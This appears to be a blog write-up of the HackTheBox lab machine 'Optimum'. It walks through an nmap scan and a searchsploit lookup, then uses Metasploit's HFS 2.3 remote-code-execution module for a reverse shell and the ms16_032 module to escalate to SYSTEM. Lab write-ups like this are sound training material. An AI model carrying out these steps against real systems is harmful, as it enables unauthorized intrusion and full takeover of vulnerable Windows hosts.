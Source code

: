 ```yaml
---
title: "HackTheBox - Optimum"
author: Nasrallah
description: ""
date: 2022-08-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, metasploit, rce]
img_path: /assets/img/hackthebox/machines/optimum
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Optimum](https://app.hackthebox.com/machines/Optimum) from [HackTheBox](https://www.hackthebox.com). This Box is running a version of HFS vulnerable to remote code execution allowing us to easily get access to the machine, then we use a metasploit module to escalate our privileges to SYSTEM. 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.8
Host is up (0.088s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We found port 80 open running `httpfileserver` version `2.3`.

Let's use `searchsploit` to see if there is any exploits in this version.

```bash
$ searchsploit hfs 2.3
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                                                | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                             | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                        | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                        | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                   | windows/webapps/34852.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

This version of HFS is vulnerable to remote command execution.

# **Foothold**

There is a module in metasploit named `windows/http/rejetto_hfs_exec` that would give us a reverse shell on the target, so let's use it.

![](1.png)

After setting the required options, let's run the exploit by entering `exploit`.

![](2.png)

Waiting a little bit for the exploit to fully run, we go back to metasploit command line and run `sessions` to see that we have a received a meterpreter session.

![](3.png)

# **Privilege Escalation**

Running the command `sysinfo` reveals that we're in a x64 architecture but our reverse shell is running on a x32 architecture.

![](4.png)

Let's list the precesses with the command `ps` and then move to a process like `explorer.exe` since it's x64 with the command `migrate <pid>.

```shell
meterpreter > ps                                                                                                                                             
                                                                                                                                                             
Process List                                                                                                                                                 
============                                                                                                                                                 
                                                                                                                                                             
 PID   PPID  Name                     Arch  Session  User            Path                                                                                    
 ---   ----  ----                     ----  -------  ----            ----                                                                                    
 0     0     [System Process]                                                                                                                                
 4     0     System                                                                                                                                          
 136   612   conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe                                                         
 228   4     smss.exe                                                                                                                                        
 284   476   spoolsv.exe                                                                                                                                     
 332   320   csrss.exe                                                                                                                                       
 384   320   wininit.exe                                                                                                                                     
 392   376   csrss.exe                                                                                                                                       
 436   376   winlogon.exe  
 476   384   services.exe                                                                                                                                    
 484   384   lsass.exe                                                                                                                                       
 544   476   svchost.exe                                                                                                                                     
 572   476   svchost.exe                                                                                                                                     
 588   2504  powershell.exe           x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 612   3008  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 620   476   vmtoolsd.exe
<**SNIP**>
 1944  2940  ezZKJbudGn.exe           x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\radFACD7.tmp\ezZKJbudGn.exe
 1956  1180  explorer.exe             x64   1        OPTIMUM\kostas  C:\Windows\explorer.exe
 2000  696   taskhostex.exe           x64   1        OPTIMUM\kostas  C:\Windows\System32\taskhostex.exe
 2220  2504  wscript.exe              x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\wscript.exe

meterpreter > migrate 1956
[*] Migrating from 2272 to 1956...
[*] Migration completed successfully.

```

After some research, we find that we can use a module named `windows/local/ms16_032_secondary_logon_handle_privesc` that would give us a SYSTEM shell.

![](5.png)

We need to set the following options:

 - set session <session id>
 - set lhost tun0
 - set lport <port number>

After we run the exploit, we should get a meterpreter shell with privileged access/

![](6.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).